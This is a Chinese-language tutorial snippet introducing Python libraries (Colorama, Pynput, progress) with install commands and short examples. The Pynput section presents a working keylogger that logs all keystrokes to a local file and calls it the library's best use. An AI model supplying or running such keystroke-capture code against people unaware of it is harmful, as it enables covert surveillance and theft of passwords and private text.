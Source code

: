 Python
<a name="89O64"></a>
## 1. Colorama
Colorama 是一个用来使终端看起来更好 Python 库，它可以用来给终端添加颜色。<br />安装：`pip install colorama`<br />![](./img/1610338500754-e81d8884-3267-479d-a058-2e5a8354102c.png)
<a name="TuB3E"></a>
## 2. Pynput
此库用于控制鼠标和键盘等外部设备的瞬间。使用一些简单的代码行，可以使用库来控制键盘和鼠标。此库的最佳应用程序是使用它创建一个键盘记录程序。下面的代码解释了使用库的键盘记录器的实现。<br />安装：`pip install Pynput`
```python
from pynput.keyboard import Key, Controller,Listener
import time
keyboard = Controller()
keys=[]
def on_press(key):
    global keys
    string = str(key).replace("'","")
    keys.append(string)
    main_string = "".join(keys)
    print(main_string)
    if len(main_string)>15:
      with open('keys.txt', 'a') as f:
          f.write(main_string)   
          keys= []     
def on_release(key):
    if key == Key.esc:
        return False

with Listener(on_press=on_press,on_release=on_release) as listener:
    listener.join()
```
<a name="6FYXN"></a>
## 3. progress 和 tqdm
<a name="qU4M9"></a>
### Progress：创建进度条
安装：`pip install progress`
```python
from progress.bar import Bar
bar = Bar('Loading', max=20)
for i in range(20):
    # Any Task
    bar.next()
bar.finish()
```